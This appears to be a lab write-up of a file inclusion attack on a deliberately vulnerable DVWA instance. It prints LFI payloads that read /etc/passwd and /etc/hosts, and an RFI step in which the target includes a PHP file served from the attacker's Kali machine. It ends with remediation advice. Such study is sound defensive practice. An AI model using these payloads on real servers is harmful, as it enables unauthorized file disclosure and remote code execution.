




# Attack 4 — File Inclusion (LFI & RFI)

## What is it?
File Inclusion tricks the server into exposing or executing files it shouldn't
by manipulating a URL parameter. Instead of loading the intended page, we
point it to sensitive system files (LFI) or a remote malicious file (RFI).

---

## Target
- **URL**: http://192.168.100.129/dvwa/vulnerabilities/fi/
- **Tools**: Browser, Python HTTP Server
- **Security Level**: Low

---

## Steps

### 1. Test normal functionality
Observed the URL loads files via the `page` parameter:

?page=include.php

Page loaded normally — confirms the parameter controls which file is included.

### 2. Local File Inclusion — Read /etc/passwd
Replaced the filename with a direct absolute path:

?page=/etc/passwd

**Result**: Full contents of `/etc/passwd` dumped — server user accounts exposed.

### 3. Local File Inclusion — Read /etc/hosts

?page=/etc/hosts

**Result**: Server's hosts file revealed — confirms unrestricted file read access.

### 4. Remote File Inclusion
Created a PHP file on Kali and served it with Python:
```bash
echo '<?php echo "<h1>RFI SUCCESS</h1>"; ?>' > evil.php && python3 -m http.server 8888
```
Then included it remotely:

?page=http://192.168.100.130:8888/evil.php

**Result**: PHP code executed on the DVWA server — remote code execution confirmed.

---

## Result
Successfully read sensitive server files via LFI and achieved remote code
execution via RFI, all through a single unsanitized URL parameter.

---

## Impact
- Sensitive system files exposed (passwords, configs)
- Remote code execution achieved via RFI
- In a real scenario this leads to full server compromise

---

## Remediation
- Validate input against a whitelist of allowed filenames
- Never pass raw user input to `include()` or `require()`
- Disable `allow_url_include` in `php.ini`
- Use `basename()` to strip directory traversal attempts

---

## Screenshots

### 1. Normal page load


### 2. LFI — /etc/passwd exposed


### 3. LFI — /etc/hosts exposed


### 4. RFI — remote file executed


---

## Next Attack
[Attack 5 — XSS](../05-XSS/)
p
